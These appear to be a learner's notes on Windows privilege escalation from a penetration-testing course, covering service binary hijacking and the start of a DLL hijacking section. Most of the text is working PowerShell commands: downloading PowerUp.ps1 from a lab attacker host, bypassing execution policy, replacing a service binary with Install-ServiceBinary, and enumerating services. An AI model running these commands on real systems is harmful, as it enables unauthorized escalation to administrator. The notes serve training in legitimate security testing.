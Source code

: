 ```PowerShell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
#### Start PowerShell with the Execution Policy bypass so you can run scripts without being blocked
```PowerShell
powershell -ep bypass
```
#### Execute PowerUp.ps1
```PowerShell
. .\PowerUp.ps1
```
#### Look for modifiable service paths
```PowerShell
Get-ModifiableServiceFile
```
#### Try the `AbuseFunction` to see if it works in replacing the binary
```PowerShell
Install-ServiceBinary -Name 'mysql'
```
#### If there's an error, analyze the function `ModifiablePath` 
- First, we'll try the service binary path without any arguments for **Get-ModifiablePath**. 
```PowerShell
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal
```

```PowerShell
$ModifiableFiles
```

- Then, we'll add another argument to check if the function still provides the correct output. 
```PowerShell
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal
```

```PowerShell
$ModifiableFiles
```

- Finally, we'll use an argument with a path inside.
```PowerShell
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal
```

```PowerShell
$ModifiableFiles
```

***If you encounter any issues while using RunAs, you can try running an Administrator command prompt and entering the credentials for user dave2 to obtain a shell.***
### 16.2.2. Service DLL Hijacking
#### Standard DLL search order on current Windows versions
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
#### Displaying information about the running service BetaService
```PowerShell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
